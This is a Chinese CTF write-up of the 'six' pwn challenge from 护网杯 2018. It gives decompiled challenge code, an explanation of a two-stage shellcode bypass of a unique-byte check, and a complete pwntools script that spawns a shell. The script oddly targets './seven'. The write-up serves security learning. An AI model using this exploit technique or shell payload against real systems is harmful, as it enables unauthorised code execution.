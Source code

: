layout:     post
title:      护网杯six题解
subtitle:    护网杯six
date:       2018-10-1
author:     XT
header-img: img/post-bg-coffee.jpeg
catalog: 	 true
tags:

    - pwn

---

> six


# six

源码如图

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  void (__fastcall *v3)(__int64, char *); // ST08_8@1
  size_t v4; // rax@1
  char *v5; // rbx@1
  size_t v6; // rax@1
  int result; // eax@1
  __int64 v8; // rcx@1
  char s; // [sp+10h] [bp-20h]@1
  __int64 v10; // [sp+18h] [bp-18h]@1
  v10 = *MK_FP(__FS__, 40LL);
  mmap2();                                      // 分配两块地址
                                                // dest可执行
                                                // fake_stack可写可读
  v3 = dest;                                    // dest地址赋值给v3
  memset(&s, 0, 8uLL);
  puts("Show me your shellcode:");
  read(0, &s, 7uLL);
  check(&s, &s);
  v4 = strlen(src);
  memcpy(dest, src, v4);                        // src传到第一块内存中
  v5 = dest;
  v6 = strlen(src);
  memcpy(&v5[v6], &s, 7uLL);                    // 将用户的输入传到src之后
  v3(fake_stack, &s);                           // v3即调用我们的dest函数，参数为fake_stack
  result = 0;
  v8 = *MK_FP(__FS__, 40LL) ^ v10;
  return result;
}

__int64 mmap2()
{
  int fd; // ST04_4@1
  __int64 buf; // [sp+8h] [bp-18h]@1 //buf低地址
  __int64 v3; // [sp+10h] [bp-10h]@1 //v3高地址
  __int64 v4; // [sp+18h] [bp-8h]@1

  v4 = *MK_FP(__FS__, 40LL);
  setvbuf(stdin, 0LL, 2, 0LL);
  setvbuf(stdout, 0LL, 2, 0LL);
  setvbuf(stderr, 0LL, 2, 0LL);
  fd = open("/dev/urandom", 0);
  read(fd, &buf, 6uLL);
  read(fd, &v3, 6uLL);
  dest = mmap((v3 & 0xFFFFFFFFFFFFF000LL), 0x1000uLL, 7, 34, -1, 0LL);// dest可执行
  fake_stack = mmap((buf & 0xFFFFFFFFFFFFF000LL), 0x1000uLL, 3, 34, -1, 0LL) + 1280;
  return *MK_FP(__FS__, 40LL) ^ v4;
}

__int64 __fastcall check(__int64 a1)
{
  __int64 result; // rax@2
  signed int i; // [sp+18h] [bp-8h]@1
  int j; // [sp+1Ch] [bp-4h]@2

  for ( i = 0; i <= 6; ++i )
  {
    result = (i + 1);
    for ( j = i + 1; j <= 6; ++j )
    {
      result = *(j + a1);
      if ( *(i + a1) == result )
      {
        puts("Invalid shellcode!");
        exit(0);
      }
    }
  }
  return result;
}
```



其中check函数是用来检测我们写的shellcode是不是每个字节相同的。

对于src即我们的shellcode之前的那一段代码，

因为具有可执行性所以我们的代码是

![1545912100040](https://raw.githubusercontent.com/xineting/xineting.github.io/master/img/six.png)

把所有的寄存器都设为了0，并且把rsp指向了第二块申请内存的地址

所以这题的思路是，由于src将各寄存器都置0了，我们可以利用0号系统调用read输入进行第二次的shellcode输入，输入位置可以是rsp栈顶，rax=0表示0号调用read,rdi=0表示标准输入，rsi可以设置为rsp，表示输入到栈顶，rdx表示输入字节大小，这个不固定，只要能过judge就行。然后通过read输入shellcode覆盖这两块内存空间，直到覆盖过rip，最后在尾部加上调用shell的shellcode即可。这里我用nop填充。

最后脚本为

```python
from pwn import *
context(os="linux",arch="amd64",log_level="debug",endian="little")
context.terminal = ['tmux', 'split', '-h']
sh = process("./seven")
#gdb.attach(sh,"b read")
sh.recvuntil("Show me your shellcode:")

payload1 =asm("push rsp;pop rsi;mov edx,esi;syscall")
sh.sendline(payload1)
nop=asm("nop")
shell= asm(shellcraft.sh())

payload2=nop*0xb36+shell
sh.sendline(payload2)
sh.interactive()
```

至于那个长度b36，可以在调试的时候测试出来。


